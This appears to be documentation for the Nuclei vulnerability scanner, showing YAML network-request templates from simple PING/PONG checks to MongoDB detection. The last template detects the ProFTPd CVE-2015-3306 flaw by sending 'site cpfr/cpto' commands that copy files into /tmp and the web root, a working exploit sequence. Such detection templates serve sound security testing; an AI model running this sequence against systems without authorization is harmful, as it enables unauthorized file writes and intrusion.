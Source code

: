 ### Basic Network Request

This template connects to a network service, sends some data and reads 4 bytes from the response. Matchers are ran to identify valid response, which in this case is `PONG`.

```yaml
id: basic-network-request

info:
  name: Basic Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

### TLS Network Request

Similar to the above template, but the connection to the service is done with TLS enabled.

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "tls://{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

### Hex Input Request

This template connects to a network service, sends some data encoded in hexadecimal to the server and reads 4 bytes from the response. Matchers are ran to identify valid response, which in this case is `PONG`. The match words here are encoded in Hexadecimal, using `encoding: hex` option of matchers.

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

### Input Expressions

Inputs specified in network also support DSL Helper Expressions, so you can create your own complex inputs using variety of nuclei helper functions. The below template is an example of using `hex_decode` function to send decoded input over wire.

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection
  author: pd-team
  severity: info
  reference: https://github.com/orleven/Tentacle

network:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Hostname}}"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime"
```

### Multi-Step Requests

This last example is an RCE in proFTPd which if vulnerable, allows to place arbitrary files in any directory on the server. The detection process involves a random string on each nuclei run using `{{randstr}}`, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of `Copy successful` in the response.

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

network:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```